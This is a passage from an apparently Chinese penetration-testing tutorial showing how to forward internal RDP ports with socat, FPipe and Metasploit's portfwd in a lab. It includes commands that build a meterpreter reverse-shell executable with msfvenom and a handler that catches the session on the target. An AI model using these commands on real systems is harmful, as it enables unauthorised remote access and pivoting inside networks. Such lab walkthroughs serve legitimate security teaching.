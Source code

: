 ![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9MZEnhuMyJ7qC5Zngibb4T3icztmM8HGgsa9NPzlVZfRvMo8y2m6vs39g/640?wx_fmt=png)

**5****、****socat**

**5.1** **转发内网端口**

靶机：socat.exeTCP4-LISTEN:6666,reuseaddr,fork TCP:192.168.1.2:3389

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9KsVKAQAvU4LbAAusnxMQDXY3xzXe12Bw1tbUcmRqgp01dbJ5p5vAnA/640?wx_fmt=png)

使用 kali 成功连接：rdesktop 192.168.111.132:6666

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9jia5zXDjickyM214YmVUHEj5nw26sGJARp7vL7qJQTRj5L9YAaW5RDDA/640?wx_fmt=png)

**6****、****FPipe**

**6.1** **转发内网端口**

靶机：FPipe.exe -l 6666 -r 3389 192.168.1.2

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9JxTQaKGVkkZIR1r8n8no7iaMKCwiaSaugiaqX3hMyMRvQyy4ibvYv88Csg/640?wx_fmt=png)

kali 成功连接：rdesktop 192.168.111.132:6666

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9YUib30vqtC2Upn2hiaCsHhrHA8o021GR5ibCEkCoES3E6YeDib8zjsBYkQ/640?wx_fmt=png)

**7****、****portfwd****（****msf** **自带）**

**7.1** **使用** **msf** **生成一个木马**

msfvenom -pwindows/meterpreter/reverse_tcp LHOST=192.168.111.128 LPORT=4444 -f exe >test.exe

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9gN2n4BVItU3CDbDWUN85BBgpKJUSZcUibWMozgQCiaHhHCyM1D0oJtNg/640?wx_fmt=png)

**7.2 msf** **开启监听并上线**

1、use exploit/multi/handler

2、set payload windows/meterpreter/reverse_tcp

3、set lhost 192.168.111.128

4、set lport 4444

5、exploit

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW953cvicmxE9g2xiaVsicAuiagR3ggyYanKm7a8dNiawQc7fIWpBw7qbfxHVg/640?wx_fmt=png)

成功让靶机上线：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9jvd2QAe5HvLkwASL0zBI997mGX7K3lYon59Daib0q3Y7E0W2HribmmOw/640?wx_fmt=png)

**7.3** **使用** **portfwd** **将靶机的** **3389** **转发到本地** **1234** **端口**

portfwdadd-l 1234 -r 192.168.111.132-p 3389

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9MVJ6ZhCibxiahsjFiccSmKBVRvHlGL7zghDtWqPzSnWicse2OlN3Egc7dQ/640?wx_fmt=png)

使用 kali 连接本地 1234 端口即可：
